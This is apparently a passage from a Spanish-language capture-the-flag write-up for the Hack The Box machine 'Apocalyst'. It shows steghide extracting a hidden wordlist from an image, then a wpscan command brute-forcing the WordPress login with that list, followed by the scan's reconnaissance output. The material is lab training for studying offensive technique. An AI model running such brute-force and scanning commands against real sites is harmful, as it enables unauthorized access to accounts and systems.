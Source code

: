 `Vemos` el `contenido oculto` de la `imagen` debido a que no está protegida por ninguna contraseña

```
# teghide extract -sf image.jpg
Enter passphrase: 
wrote extracted data to "list.txt".
```

## Web Exploitation

Mediante `wpscan` hacemos `bruteforce` contra el `panel` de `login` del Wordpress

```
# wpscan --url http://apocalyst.htb -U falaraki -P list.txt 
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         Wordpress Security Scanner by the WPScan Team
                         Version 3.8.25
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://apocalyst.htb/ [10.129.156.119]
[+] Started: Sat Aug  3 03:42:12 2024

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.18 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://apocalyst.htb/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.Wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/Wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/Wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/Wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/Wordpress_pingback_access/

[+] Wordpress readme found: http://apocalyst.htb/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] Upload directory has listing enabled: http://apocalyst.htb/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://apocalyst.htb/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-Wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] Wordpress version 4.8 identified (Insecure, released on 2017-06-08).
 | Found By: Rss Generator (Passive Detection)
```